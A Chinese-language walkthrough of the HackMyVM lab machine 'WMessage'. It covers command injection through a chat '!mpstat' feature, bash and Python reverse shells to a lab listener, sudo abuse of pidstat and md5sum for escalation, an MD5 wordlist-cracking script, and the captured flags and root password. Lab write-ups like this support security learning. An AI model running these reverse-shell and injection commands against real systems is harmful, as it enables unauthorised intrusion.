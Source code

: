 # WMessage

2025.02.19 https://hackmyvm.eu/machines/machine.php?vm=WMessage

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页跳转到登陆页面，可能存在 SQL 注入，经过测试暂时未发现。有一个注册页面，http://192.168.5.40/sign-up 注册个账号进入系统，发现可以发消息，并且可以执行 !mpstat 查看状态，可能存在 RCE，进行探测，输入 !mpstat:id 刷新页面后，出现 www-data，验证有 RCE，直接反弹 shenll 到 kali：

```
!mpstat;/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到反弹 shell:

```
www-data@MSG:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

sudo -l 发现 (messagemaster) NOPASSWD: /bin/pidstat 先提权到 messagemaster 用户：

```
sudo -u messagemaster pidstat -e /bin/bash
```

执行后，很快又被系统踢出来，不能执行交互式的命令。换另外一种方式，在 kali 上再次建立监听，然后用 python 进行反弹：

```
sudo -u messagemaster pidstat -e python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

获取到 messagemaster 用户 shell 后，得到了 user flag：

```
ea86091a17126fe48a83c1b8d13d60ab
```

sudo -l 发现：(ALL) NOPASSWD: /bin/md5sum 然后在 /var/www/ROOTPASS 中有 root 用户密码，使用 sudo 程序将其读取出来，然后进行哈希破解：

```
sudo /bin/md5sum  /var/www/ROOTPASS

85c73111b30f9ede8504bb4a4b682f48
```

hashcat 和 john 解密不出来，写了一个简单的 py 脚本进行解密：

```
import hashlib

def md5_encrypt(data):
    md5 = hashlib.md5()
    md5.update(data.encode('utf-8'))
    return md5.hexdigest()

hashStr = '85c73111b30f9ede8504bb4a4b682f48'

for line in open('/usr/share/wordlists/rockyou.txt', encoding="utf-8", errors="ignore"):
    encrypted_data = md5_encrypt(line)
    if hashStr == encrypted_data:
        print("找到PASS", line)
        break
```

得到密码 Message5687 直接 su 切换到 root，得到了 root flag:

```
root@MSG:~# cat Root.txt
a59b23da18102898b854f3034f8b8b0f
```
